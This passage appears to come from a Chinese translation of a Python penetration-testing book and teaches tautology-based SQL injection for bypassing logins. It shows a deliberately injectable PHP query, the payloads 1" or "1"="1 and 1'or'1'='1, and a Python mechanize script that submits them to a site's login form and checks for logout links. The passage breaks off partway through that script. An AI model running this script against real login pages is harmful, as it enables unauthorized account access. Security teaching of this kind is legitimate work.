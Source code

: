 希望你还记得我们使用数据库文件存储端口号和端口描述的端口扫描程序。这里使用了一个名为`php`的列表，输出可以在以下截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/1116c28a-e909-4fea-aa5e-2ea04a3434a8.png)

通过 data_handler.py 显示 mohit.raj

前面的程序是为 PHP 编写的。我们还可以为不同的 Web 服务器语言编写程序，例如 ASP.NET。

现在，是时候执行基于重言的 SQL 注入攻击了。基于重言的 SQL 注入通常用于绕过用户身份验证。

例如，假设数据库包含用户名和密码。在这种情况下，Web 应用程序编程代码将如下所示：

```py
$sql = "SELECT count(*) FROM cros where (User=".$uname." and Pass=".$pass.")";
```

`$uname`变量存储用户名，`$pass`变量存储密码。如果用户输入有效的用户名和密码，那么`count(*)`将包含一条记录。如果`count(*) > 0`，则用户可以访问他们的帐户。如果攻击者在用户名和密码字段中输入`1" or "1"="1`，那么查询将如下所示：

```py
 $sql = "SELECT count(*) FROM cros where (User="1" or "1"="1." and Pass="1" or "1"="1")";.
```

`User`和`Pass`字段将保持`true`，`count(*)`字段将自动变为`count(*)> 0`。

让我们编写`sql_form6.py`代码并逐行分析它：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
br.select_form(nr=0)
pass_exp = ["1'or'1'='1",'1" or "1"="1']

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(nr=0)
  br.form[user1] = 'admin'
  br.form[pass1] = pass_exp[p]
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",pass_exp[p]

```